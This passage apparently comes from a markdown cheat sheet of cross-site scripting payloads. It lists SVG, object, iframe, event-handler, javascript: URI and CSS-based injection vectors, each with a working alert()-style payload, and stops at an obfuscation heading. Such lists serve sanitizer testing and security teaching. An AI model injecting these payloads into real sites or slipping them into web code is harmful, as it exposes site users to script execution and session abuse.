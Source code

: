 #### SVG Tag (`<svg>`)
- **Description:** SVGs can embed scripts.
- **Payload:** `<svg onload="alert('XSS from svg onload');"></svg>`
- **Payload (embedded script):** `<svg><script>alert('XSS from svg script');</script></svg>`

#### Object Tag (`<object>`)
- **Description:** Can embed external resources or data URIs that execute script.
- **Payload:** `<object data="javascript:alert('XSS from object data');"></object>`

#### Iframe Tag (`<iframe>`)
- **Description:** Embedding a page that executes JavaScript or using `srcdoc` or `javascript:` URI.
- **Payload (javascript: URI):** `<iframe src="javascript:alert('XSS from iframe src');"></iframe>`
- **Payload (srcdoc):** `<iframe srcdoc="<script>alert('XSS from iframe srcdoc');</script>"></iframe>`

### Event Handlers
Many HTML tags support event handlers that can be used for XSS.
- **Examples:** `onload`, `onerror`, `onmouseover`, `onclick`, `onfocus`, `onblur`, `onchange`, etc.
- **Generic Payload:** `<div onmouseover="alert('XSS from event handler');">Hover me</div>`

### JavaScript URI Scheme
- **Description:** Using `javascript:` directly in attributes that expect a URL.
- **Payload:** `<a href="javascript:alert('XSS');">Click</a>`
- **Payload in iframe:** `<iframe src="javascript:alert('XSS');"></iframe>`
- **Payload in object:** `<object data="javascript:alert('XSS');"></object>`
- **Payload in form action:** `<form action="javascript:alert('XSS');"><input type="submit"></form>`

### CSS-Based Attacks

#### Style Attribute
- **Description:** Using `expression()` (IE only) or `url()` with `javascript:` in style attributes.
- **Payload (expression - IE):** `<div style="width: expression(alert('XSS from style expression'));"></div>`
- **Payload (url - older browsers):** `<div style="background-image: url(javascript:alert('XSS from style url'));"></div>`

#### Style Tag (`<style>`)
- **Description:** Embedding CSS that can trigger XSS, often through `url()` or imported stylesheets.
- **Payload (url - older browsers):** `<style>body { background-image: url("javascript:alert('XSS from style tag')"); }</style>`
- **Payload (import):** `<style>@import 'javascript:alert("XSS from style import")';</style>` (Browser dependent)

### Encoding and Obfuscation
